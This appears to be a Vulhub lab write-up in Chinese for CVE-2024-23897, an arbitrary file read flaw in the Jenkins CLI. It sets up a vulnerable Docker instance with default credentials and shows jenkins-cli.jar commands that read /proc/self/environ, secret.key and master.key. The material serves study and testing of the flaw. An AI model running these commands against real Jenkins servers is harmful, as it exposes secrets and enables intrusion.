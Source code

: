# Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 漏洞环境

执行如下命令启动一个Jenkins server 2.441：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。

## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://localhost:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/proc/self/environ"
```

![](1.png)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

如果拥有用户权限，可以利用`connect-node`命令读取完整文件内容，例如：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http -auth "admin:vulhub" connect-node "@/var/jenkins_home/"
```

![](4.png)